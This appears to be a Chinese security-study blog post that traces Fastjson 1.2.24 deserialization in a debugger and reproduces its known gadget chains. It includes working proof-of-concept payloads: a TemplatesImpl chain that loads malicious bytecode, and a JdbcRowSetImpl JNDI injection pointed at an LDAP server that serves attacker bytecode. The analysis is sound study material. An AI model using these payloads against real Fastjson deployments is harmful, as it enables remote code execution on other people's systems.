



## 引入fastJson 1.2.24
环境：jdk8u181
为了方便切换fastjson的各个版本，我创建一个maven项目，在pom.xml引入FastJson
```xml
<dependencies>
  <dependency>
    <groupId>junit</groupId>
    <artifactId>junit</artifactId>
    <version>4.11</version>
    <scope>test</scope>
  </dependency>
    <dependency>
      <groupId>com.alibaba</groupId>
      <artifactId>fastjson</artifactId>
      <version>1.2.24</version>
    </dependency>
</dependencies>
```
然后写一个简单的javaBean
```java
package com.aaron.test;

public class User {
    private String name;
    private String age;

    public String getName() {
        System.out.println("getName is running!");
        return name;
    }

    public void setName(String name) {
        System.out.println("SetName is running!");
        this.name = name;
    }

    public String getAge() {
        return age;
    }

    public void setAge(String age) {
        this.age = age;
    }

    @Override
    public String toString(){
        return "User{" +
                "name='" + name + '\'' + ',' + "age='" + age + '\'' +
                '}';
    }
}
```
在以上基础上，构建一个Main类，使用fastjson来解析
```java
package com.aaron.test;

import com.alibaba.fastjson.JSON;

public class Main {
    public static void main(String[] args) {
        String json = "{\"@type\":\"com.aaron.test.User\", \"name\":\"aaron\",\"age\":\"23\"}";
        Object obj = JSON.parse(json);
        System.out.println(obj);
    }
}

```
运行main方法


fastjson 会解析该字符串，将其解析成object，就可以看到解析完成之后的User{name='aaron', age='23'}，在这个过程中，SetName 方法是被调用了
上面代码中输出的是一个Object类型的对象，但是从输出结果中看到该Object对象已经被解析为了User类型的对象。这就是json数据中的@type属性起的作用，
Fastjson支持在json数据中使用@type属性指定该json数据被反序列为什么类型的对象。
同时控制台也输出了 SetName is running! ，
说明在反序列化对象时，会执行javabean的setter方法为其属性赋值。

## 调试
调试fastjson可让我花了不少力气，虽然我们都知道触发漏洞是在`getter/setter`处，fastjson会直接反射需要反序列化的类，并调用setter方法进行赋值，但是这个调试真是太麻烦了！
那么就开始调试！我丢！

强制进入parse函数


首先进入之后就会调用parse()函数，继续进入parse()函数


依次步进，在这里又调用了parser对象的parse方法，继续进入

继续进入parse函数


单步运行，直到case 12，这里调用了parseObject函数，继续进入


进入parseObject函数，继续单步


在这里调用了deserializer实例方法的deserializer函数，看这个函数有点像，而且还传入了this(分析上下文应该是传入待解析的json)，clazz，还有filedname，这里其实clazz已经从`@type`处已经找到字节码了


进入deserializer方法，在这里有个巨坑，强制进入都一直进不去，我只有手动进入，艹！


第一次手动进入，就到下面这个函数，这个函数继续手动进入deserializer函数


到这个函数，打上断点才可以继续调试


继续单步，不知道走了多少步。。。到了这里，刚刚就是在拆解json字符串，把key和Object构造好



然后进入parseField函数


单步运行到执行parseField方法处，艹，他妈的！再进入


继续单步，经过一系列的if...else...终于看到点希望，我擦，直到看到了setValue函数，艹


我们进入setValue函数，可以看到这里将value，fieldInfo都传进来了


然后通过反射,去取相对应的setter方法

```java
Method method = this.fieldInfo.method
```
如果存在setter方法


则直接调用该方法赋值


然后就到我们的setter方法这儿，就会打印SetName is running!


调这几把玩意人给调傻了，在deserializer方法，一直无法进入，手工进入找到调用的方法后才进行下一步

## 结论
调试完毕之后，就可以得到结论

1. fileldinfo中包含JavaBean的属性名称（private）及其setter，getter等method方法，然后通过反射调用setter方法进行赋值
2. 当JavaBean存在属性为AtomicInteger、AtomicLong、AtomicBoolean、Map或Collection类型，且fieldinfo.getOnly值为true时（当javabean的属性没有setter方法，只有getter方法时，该值为true），在反序列化时会调用该属性的getter方法
## 测试


在setValue函数中，我们可以看到，this.fieldInfo满足私有属性（private)且getOnly的时候，意思是只存在getter方法，不存在setter方法的时候，且类型为AtomicInteger，AtomicLong，AtomicBoolean，Map，Collection的时候，会直接调用getter方法，这里我用AtomicInteger示例

```java
// javaBean
public class User {
    private String name;
    private String age;
    private AtomicInteger test;

    public AtomicInteger getTest() {
        try{
            Runtime.getRuntime().exec("gnome-calculator");
        }catch (Exception e){
            e.printStackTrace();
        }

        return test;
    }
}
```


```java
// Main
package com.aaron.test;

import com.alibaba.fastjson.JSON;

public class Main {
    public static void main(String[] args) {
        String json = "{\"@type\":\"com.aaron.test.User\",\"test\":12,\"name\":\"aaron\",\"age\":\"23\"}";
        Object obj = JSON.parse(json);
        System.out.println(obj);
    }
}

```


运行结果如下图所示，我在此处执行了getter方法，而我的getter方法里却实现了弹出计算器的命令执行代码，当invoke之后，调用getter方法，执行命令


### 通过getter触发gadget
测试类选择TemplatesImpl，首先探测可用于触发getter gadgets，如下图所示，可以看到`_auxClasses`，`_outputProperties`属性是map类，首先满足第一条件，继续寻找是否只有getter方法


在这里可以看到满足条件的两个属性`_auxClasses`，`_outputProperties`，只有`_outputProperties`属性是存在getter方法


我最初是在网上找了一个复现poc

```java
public class TemplatesImplTest {
    public static void main(String[] args) throws Exception {
        String className = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        // 获取Exec的字节码
        String byteCode = FileTools.getEvil(Class.forName("com.fastjson.tools.Exec"));
        String json = "{\"@type\":\"" + className + "\"," +
                "\"_bytecodes\":[\"" + byteCode + "\"]," +
                "'_name':''," +
                "'_tfactory':{}," +
                "\"_outputProperties\":{}," +
                "\"_name\":\"\"," +
                "\"_version\":\"\"," +
                "\"allowedProtocols\":\"\"}";
        System.out.println(json);
        // 设置反序列化时对类的私有属性进行赋值
        JSON.parse(json, Feature.SupportNonPublicField);
    }
}
```
当时我也没有想通，为什么要有这些参数，通过反射看了构造函数，以及找了很多很多文章学习，也没有发现什么共同点，直到最后靠自己调试！卧槽，真他妈疯了，又搞了一下午，不过总得来说，自己总结学习到的东西还是很有帮助的。

- 首先我们知道，fastjson会根据json字符串遍历key，然后再调用getter/setter赋值操作
- 然后，我们利用的方式是getOnly，只有getter方法，没有setter方法
- 最后，在invoke之后，TemplatesImpl具体又执行了什么呢？


我在这里做一个测试，在invoke之后强制进入找找问题所在，我把json数据改成如下所示，将`_tfactory`，`_outputProperties`换一个位置
```java
String json = "{\"@type\":\"" + className + "\"," +
                "\"_bytecodes\":[\"" + byteCode + "\"]," +
                "'_name':''," +
                "\"_outputProperties\":{},"+
                "'_tfactory':{}}";
```
然后再进行调试，我们着重看outputProperties触发处，在invoke处进入


然后我们可以看到，这里要进行了newTransformer()，在这里请注意我们要反序列化的字符串的顺序，此时`_bytecodes`，`_name`，已经完成赋值，但是，`_tfactor`，`_outputProperties`还未赋值，此时我们进入`newTransforemer()`方法

在这里我们要实例化的transformer，需要传入参数，但是`_tfactor`是null

我们进入getTransletInstance()函数，this中，_class[_transletIndex] 是初始化的数组，因为_transletIndex = -1了，还有待传入的`_tfactor`为null，可以看到`_class=null`，要执行`defineTransletClasses()`方法，进入该方法


当我继续向下执行的时候，就直接捕获异常了

那么我将`_tfactor` 和 `_outputProperties`更换位置呢？先让`_tfactor`取到值，再进行下一步实例化呢？


这里就直接进入try代码块了


执行完defineTransletClasses()，之后，得到了`_class[_transletIndex]` 为我们写入的恶意字节码


然后再对`_class[_transletIndex] `进行实例化(newInstance()) 即可加载恶意构造函数

### getter gadget链路
当反序列化com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl 类时，由于`_outputProperties` 属性是Map属性，且该属性只有getter方法，没有setter方法，因此会有如下的调用链
`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties() => new Transformer() => getTranslateInstance() => defineTransletClasses()`，到了这里，会读取`_bytecodes[]`属性中的字节码，然后在判断是否是继承于AbstractTranslet类

最后调用newInstance()方法实例化该类的对象，该方法是调用该类的缺省构造函数实例化对象
虽然上面的测试代码给_byteCodes 属性传入的字节码是经过base64编码的，但是在defineTransletClasses()方法中加载字节码之前，在`com.alibaba.fastjson.parser.JSONScanner.bytesValue()`方法中，已经将其解码了

### 通过setter方法触发gadget
我们使用JdbcRowSetImpl 类，这里用的就是JDNI注入，具体可以看[JNDI注入之com.sun.rowset.JdbcRowSetImpl 利用链](https://www.yuque.com/aaronluo-thco0/secnotes/fxpgwc)
这里我简单写一下客户端的代码
```java
package com.aaron.test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class TemplatesImplTest {
    public static void main(String[] args)throws Exception {
        String className = "com.sun.rowset.JdbcRowSetImpl";
        String ldapPath = "ldap://127.0.0.1:1389/aa";
        String json = "{\"@type\":\""+className+"\" ,"+
                "\"dataSourceName\":\""+ldapPath+"\","+
                "\"autoCommit\":true"+
                "}";
        System.out.println(json);
        JSON.parse(json, Feature.SupportNonPublicField);
    }
}

```

### Setter gadget 链路
链路很简单了
在对com.sun.rowset.JdbcRowSetImpl类反序列化时，会先执行dataSourceName属性的setter方法，给dataSourceName属性赋值为ldap://127.0.0.1:1099/XX，然后执行autoCommit属性的setter方法，有如下调用链：
setAutoCommit() --> connect() --> ctx.lookup(getDataSourceName())，这里就造成了JNDI注入
通过marshalsec工具启动一个ldap服务，再启一个web服务专门放字节码，然后客户端就可以下载恶意字节码，完成JNDI注入

